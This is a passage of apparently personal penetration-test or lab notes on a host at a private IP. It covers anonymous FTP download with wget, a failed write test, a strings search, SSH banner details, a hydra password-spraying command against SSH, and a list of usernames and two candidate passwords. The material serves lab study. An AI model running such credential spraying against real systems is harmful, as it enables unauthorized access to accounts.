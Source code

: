 |      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status

Downloaded them all
```
wget -r --user="anonymous" --password="anonymous" ftp://192.168.140.112/
```
Checking for write access
	ftp> put /tmp/test.txt
	local: /tmp/test.txt remote: /tmp/test.txt
	229 Entering Extended Passive Mode (|||10094|)
	550 Permission denied.
exit

Check if they are actually zips
```
file *
```
![[Pasted image 20231218132603.png]]
Nope they're just data files

Search for strings
```
cat app* | strings | sort | uniq > strings.txt
```
No passwords


## 22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey: 
|   256 4f:d0:47:72:6f:d1:37:bf:96:74:8a:ee:d6:ab:74:49 (ECDSA)
|_  256 7b:f8:fe:ba:a3:cc:d9:15:0e:17:dc:d8:10:7b:29:b7 (ED25519)

Now users from the system can be sprayed with hydra 
```
hydra -L users -P passwords ssh://192.168.140.112 -t 4 -I
```
	Fails so attempt to manually do it :(

Users:
 ariana
 avah
 corben
 curtis
 gari
 helena
 hezekiah
 jordyn
 jovan
 keenan
 kiara
 lexie
 mason
 mohamed
 teresa
 zach
Passwords
	1amD3vM@ch1n3!
	L1ght@m3r@Acti0n
